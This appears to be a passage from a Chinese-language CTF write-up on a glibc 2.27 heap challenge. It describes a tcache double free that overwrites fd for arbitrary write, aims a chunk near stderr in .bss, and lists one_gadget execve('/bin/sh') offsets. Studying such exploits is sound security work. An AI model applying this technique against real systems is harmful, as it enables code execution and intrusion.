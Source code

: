 可以看到該版本的 tcache 可以 double free ，如此，就可以控制 tcache chunk 裡面的 fd ，達到任意寫入的目的

![./img/Untitled%2045.png](./img/Untitled%2045.png)

pie 是關閉的， bss 有 stdout, stderr..

![./img/Untitled%2046.png](./img/Untitled%2046.png)

如果直接把 chunk 指到 stderr 會遇到無效地址，相反的可以往上 8 格指進去，這樣就會當成結尾而清空 tcache bin

![./img/Untitled%2047.png](./img/Untitled%2047.png)

```
one_gadget libc-2.27.so

0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
rsp & 0xf == 0
rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
[rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
[rsp+0x70] == NULL
```
